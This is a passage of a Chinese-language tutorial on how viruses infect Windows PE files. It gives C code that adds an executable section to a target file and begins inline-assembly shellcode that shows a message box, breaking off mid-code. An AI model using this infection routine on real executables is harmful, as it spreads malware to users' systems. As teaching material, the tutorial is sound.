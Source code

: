 ## 3. 添加节表    
添加一个节区需要在 PE 文件中添加一个节表，此外还需修改 NumberOfSections 和 SizeOfImage 字段。
```C
BOOL InfectFile(TCHAR *fpath)
{
	...
	//PE头指针： 文件头指针+DOS头的e_lfanew位指定的PE头偏移
	IMAGE_NT_HEADERS *pNTHdr = (IMAGE_NT_HEADERS*)((PBYTE)pHdr + ((IMAGE_DOS_HEADER*)pHdr)->e_lfanew);
	//节区头指针： PE头指针+PE头的长度
	IMAGE_SECTION_HEADER *pSecHdr = (IMAGE_SECTION_HEADER*)((PBYTE)pNTHdr + sizeof(IMAGE_NT_HEADERS));

	//两个对齐单位
	DWORD dwFileAlign = pNTHdr->OptionalHeader.FileAlignment;
	DWORD dwSecAlign  = pNTHdr->OptionalHeader.SectionAlignment;
	//最后一个节指针
	IMAGE_SECTION_HEADER *pLastSec = &pSecHdr[pNTHdr->FileHeader.NumberOfSections-1];
	//定义一个新节
	IMAGE_SECTION_HEADER *pNewSec = &pSecHdr[pNTHdr->FileHeader.NumberOfSections];
	//原入口地址（OEP）
	DWORD dwOldOEP = pNTHdr->OptionalHeader.AddressOfEntryPoint + pNTHdr->OptionalHeader.ImageBase;
	//需插入的代码长度
	DWORD dwCodeSize  = (DWORD)ShellcodeEnd - (DWORD)ShellcodeStart;

	//填充新节表的各字段
	memcpy(pNewSec->Name,".new",5);
	pNewSec->Misc.VirtualSize = dwCodeSize;
	pNewSec->VirtualAddress		=	pLastSec->VirtualAddress + Align(pLastSec->Misc.VirtualSize, dwSecAlign);
	pNewSec->SizeOfRawData		=	Align(dwCodeSize,dwFileAlign);
	pNewSec->PointerToRawData	=	pLastSec->PointerToRawData + pLastSec->SizeOfRawData;
	pNewSec->Characteristics	=	IMAGE_SCN_MEM_EXECUTE | IMAGE_SCN_MEM_READ | IMAGE_SCN_MEM_WRITE | IMAGE_SCN_CNT_CODE;

	//节区数目加 1
	pNTHdr->FileHeader.NumberOfSections++;
	//修正PE镜像大小
	pNTHdr->OptionalHeader.SizeOfImage += Align(pNewSec->Misc.VirtualSize,dwSecAlign);
 	...
}
```
VS2010 中默认设置时，计算 Shellcode 长度时无法正确获取函数在内存中的地址，需要将修改项目属性：配置属性/链接器/常规/关闭增量链接。

## 4. 插入节区数据    
病毒通常会将带有恶意行为的代码插入新节区的数据段，被插入的代码称为 Shellcode，这里只是插入一段弹消息框的代码，Shellcode 通常使用汇编实现，下面是内联汇编代码：
```C
void __declspec(naked) ShellcodeStart()
{
	__asm {
			pushad
			call    routine

	routine :
			pop     ebp
			sub      ebp, offset routine
			push    0                                // MB_OK
			lea       eax, [ebp + szCaption]
			push    eax                              // lpCaption
			lea	   eax, [ebp + szText]
			push    eax                              // lpText
			push    0                                // hWnd
```